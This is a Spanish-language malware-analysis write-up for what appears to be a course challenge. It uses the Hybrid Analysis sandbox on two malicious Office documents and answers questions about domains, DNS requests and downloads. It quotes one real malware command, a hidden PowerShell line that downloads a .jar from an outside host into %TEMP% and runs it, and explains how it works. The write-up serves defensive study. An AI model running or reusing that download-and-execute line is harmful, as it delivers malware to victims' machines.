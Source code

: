 ## ¿Qué es una sandbox?
Una sandbox es un entorno virtual seguro donde se ejecutan archivos, aplicaciones o URL maliciosos. Voy a estar utilizando [Hybrid Analysis](https://www.hybrid-analysis.com/) para analizar los siguientes archivos: `PO-465514-180820.doc` y `Siparis_17.xls`.

- Primero subis el archivo:

![image](https://github.com/user-attachments/assets/3343f8ac-0d42-4028-bb5e-453073e56b78)

- Luego seleccionas el Sistema Operativo en el cual sea analizado. En mi caso elegi **Windows 10**:

  ![image](https://github.com/user-attachments/assets/6e1f42bf-d8b2-4d31-8465-4daa563744e2)

- Este seria el resultado:

  ![image](https://github.com/user-attachments/assets/5e7cbb00-8ba6-4a33-9688-ab52fe69877f)

- Para ver todas las acciones que hace el archivo malicioso tenemos que dirigirnos al apartado **Incident Response**.

  ![image](https://github.com/user-attachments/assets/e33eec8b-48d5-4d9d-bdb8-7ef833a606cf)

- **Persistence**: Tecnica utilizada para mantenerse en un sistema incluso despues de reinicios.
- **Fingerprint**: Recolectar información específica sobre un sistema, red o dispositivo.
- **Evasive**: Se utiliza para evitar la detección de antivirus, firewalls o sistemas de detección de intrusos (IDS).
- **Spyware**: Tipo de software malicioso diseñado para espiar las actividades del usuario sin su consentimiento.

En el apartado de **Network Behavior** se ven las direcciones IP que interactuaron con el archivo:

![image](https://github.com/user-attachments/assets/792c553c-6474-4b59-83eb-ea9fd82b6bbf)

Si entramos a la primera direccion IP, podemos ver mucha informacion, como los detalles del archivo, indicadores maliciosos, trafico HTTP, alertas de Suricata y mas...

![image](https://github.com/user-attachments/assets/a357c93a-b3ac-4872-b687-e9cc0161002b)

>- Indicadores maliciosos
>  
> ![image](https://github.com/user-attachments/assets/32d51644-bba6-4000-ab91-f20dc2f9c110)

>- Dettales del Archivo
>  
> ![image](https://github.com/user-attachments/assets/9ed6548e-31f8-4751-afc6-c7a44fb95456)


>- Trafico HTTP
>  
> ![image](https://github.com/user-attachments/assets/c6aad64b-be5c-4254-a01b-2baf0d6d7857)

>- Alertas de Suricata
>  
>  ![image](https://github.com/user-attachments/assets/3605cb46-399f-4a40-80ea-ddcd7e2e5e06)

>- Capturas de Pantalla sobre el archivo abierto
>  
> ![image](https://github.com/user-attachments/assets/f65a3d1e-ea53-4de6-bb73-cdc2edbd52f9)
> ![image](https://github.com/user-attachments/assets/16a6af6e-4d67-4ea9-bf7a-6ec1063eb371)


---


**The file PO-465514-180820.doc is trying to make a request to a domain ending with ".kz". What is this domain?**

En el apartado de **Network Behavior** se ve la conexion que hace con el dominio `www.msbc.kz`.

![image](https://github.com/user-attachments/assets/d2a619a3-b367-4093-83bf-440e08d98b82)

---

**With which Windows tool are the connection requests made? (file:PO-465514-180820.doc)**

Con la herramienta `powershell.exe`.

![image](https://github.com/user-attachments/assets/06140ab1-949a-4fb5-9036-f398e4675876)

---

**How many addresses does the file send DNS requests to? (file:PO-465514-180820.doc)**

`5`

---

**The "Siparis_17.xls" malware document is trying to download a file. With what name does he want to save the file it is trying to download to the device?**

Al analizar el archivo me encontre con un comando muy sospechoso de powershell, el cual era el siguiente:

![Uploading image.png…]()

```
/c powershell -executionpolicy bypass -W Hidden -command "& { (new-object System.Net.WebClient).DownloadFile(\"http://hocoso.mobi\" ,\" %temp%\\6LeGwKmrm.jar\") }" & %temp%\\6LeGwKmrm.jar
```



## Codigo explicado

>```(new-object System.Net.WebClient).DownloadFile:```
>
>- Crea un objeto de tipo WebClient para realizar descargas desde una URL.

> ```DownloadFile("http://hocoso.mobi", "%TEMP%\\6LeGwKmrm.jar"):```
>- Descarga un archivo desde la URL http://hocoso.mobi.

Y por ultimo guarda el archivo descargado en la carpeta temporal del sistema (%TEMP%) con el nombre `6LeGwKmrm.jar`.

Por lo que la respuesta es: `6LeGwKmrm.jar`.


- Al finalizar con el ultimo reto del curso me dieron la siguiente Certificacion:

![Screenshot From 2025-01-18 19-08-41](https://github.com/user-attachments/assets/272dfc67-11c6-470d-bc43-44a67f5b4bee)


Espero que hayan aprendido mucho de este Writeup, se vienen mas!









